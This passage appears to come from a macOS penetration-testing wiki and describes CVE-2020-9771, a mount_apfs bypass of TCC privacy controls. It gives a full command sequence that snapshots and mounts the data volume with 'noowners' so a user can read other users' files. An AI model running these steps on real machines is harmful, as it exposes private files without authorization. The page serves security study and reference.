 {{#endtab}}
{{#endtabs}}

## TCC - Root Privilege Escalation

### CVE-2020-9771 - mount_apfs TCC bypass and privilege escalation

**Any user** (even unprivileged ones) can create and mount a time machine snapshot an **access ALL the files** of that snapshot.\
The **only privileged** needed is for the application used (like `Terminal`) to have **Full Disk Access** (FDA) access (`kTCCServiceSystemPolicyAllfiles`) which need to be granted by an admin.

```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```

A more detailed explanation can be [**found in the original report**](https://theevilbit.github.io/posts/cve_2020_9771/)**.**

## Sensitive Information

This can be useful to escalate privileges:

{{#ref}}
macos-files-folders-and-binaries/macos-sensitive-locations.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}



